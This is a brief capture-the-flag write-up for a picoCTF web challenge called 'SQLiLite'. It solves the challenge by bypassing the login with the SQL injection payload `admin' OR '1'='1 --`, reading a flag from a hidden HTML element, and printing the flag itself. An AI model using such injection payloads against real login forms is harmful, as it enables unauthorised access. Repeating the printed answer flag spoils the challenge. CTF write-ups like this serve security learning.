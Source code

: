 SQLiLite
Author: Mubarak Mikail

Description
Can you login to this website?
Try to login here. 


## Solution : 

- Just login with : `admin' OR '1'='1 --` 
- Flag hidden with `<p hidden>` tag remove the hidden 
- `picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}`
